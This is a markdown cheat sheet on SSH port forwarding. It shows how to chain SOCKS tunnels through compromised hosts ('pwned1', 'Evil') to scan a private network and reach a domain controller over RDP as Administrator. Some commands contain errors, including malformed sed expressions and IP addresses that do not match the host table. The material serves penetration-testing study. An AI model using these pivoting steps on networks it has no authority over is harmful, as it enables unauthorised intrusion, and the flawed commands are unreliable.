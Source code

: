 # SSH Tunneling

How to tunnel your traffic using SSH to traverse DMZ and reach private networks.

## Local Port Forwarding 

This type of SSH forwarding will transfer a connection from the desired client host to the destined SSH server host and then move the traffic to the destination host port.

Forward traffic to a local database server from a public server:

```
# ssh -L [LOCAL_IP:]LOCAL_PORT:DESTINATION:DESTINATION_PORT [USER@]SSH_SERVER
# ssh -L 1.1.1.1:3306:db02.host.net:3306 user@public.host.net
```

## Remote Port Forwarding 

This type of SSH forwarding is the complete opposite of the local port forwarding method. The remote forwarding will allow the user to forward a port available on the remote server machine to the port available on the local machine.

```
# ssh -R [REMOTE:]REMOTE_PORT:DESTINATION:DESTINATION_PORT [USER@]SSH_SERVER
# ssh -R 192.168.10.1:8010:127.0.0.1:3100 -N -f user_name@remote.host.net
```

## Dynamic Port Forwarding

Probably the most powerful

With the help of dynamic port forwarding, you can create a socket on the local machine that will act as a SOCKS proxy server.

1. On the pwned1 server, create a socks proxy:

```
user@pwned1$ ssh -D 127.0.0.1:9052 user@localhost
```

2. On redir1, create a remote port forwarding tunnel:

```
weak@redir1$ ssh -R 127.0.0.1:9051:127.0.0.1:9052 weak@localhost
```

3. From the internet, scan the private network:

```
root@bt# sed -i '^socks4/s/socks4/socks5' /etc/proxychains4.conf
root@bt# sed -i '^socks5/s/9050/9051' /etc/proxychains4.conf
root@bt# proxychains nmap -sT -p 445 192.168.1.10
```


## Use case

General example were you need to cross mutiple secuirty zones:

| Host | Outside | Inside |
| --- | --- | --- |
| Evil | 1.1.1.1 | 192.168.1.18 |
| PubSrv | 192.168.1.22 | 172.16.4.22 |
| PriSrv | 172.16.4.30 | 10.10.10.30 |
| DC01   | 10.10.10.10 | 127.0.0.1 |


1. From the Evil host, connect to the PubSrv

```
evil@bt# ssh -f -N -D 9050 user@192.168.1.22
   <password>
```

2. Setup a second tunnel within the first

**The default /etc/proxychains4.conf uses 9050**

This command connects to PubSrv:9050 and runs another tunnel on port 10050:

```
evil@bt# proxychains ssh -f -N -D 10050 internal_user@172.168.4.30 -p 2222
```

3. Reach the domain controller from the pub_srv

**Edit the proxychains4.conf file to use 10050 instead of 9050**

Now, by using the proxychains on port 10050, you should be able to reach the domain controller and scan the network

```
evil@bt# proxychains nmap -sT 10.0.10.10 -p 445
evil@bt# proxychains rdesktop 10.10.10.10 -u Administrator -p password -g 90%
```
